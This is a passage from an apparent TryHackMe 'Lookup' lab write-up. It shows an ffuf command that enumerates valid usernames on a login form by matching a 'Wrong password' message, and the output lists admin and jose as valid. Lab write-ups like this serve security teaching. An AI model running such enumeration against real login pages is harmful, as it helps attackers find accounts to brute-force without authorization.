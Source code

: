 ![](/images/TryHackMe/Lookup/req2.png)

#### **option |**
```sh
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST \
-d "username=FUZZ&password=wrongpass" \
-u http://lookup.thm/login.php \
-H "Content-Type: application/x-www-form-urlencoded" \
-mr "Wrong password. Please try again"
```
result `admin`,`jose`
```sh

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=wrongpass
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: Wrong password. Please try again
________________________________________________

admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 83ms]
jose                    [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 192ms]
```
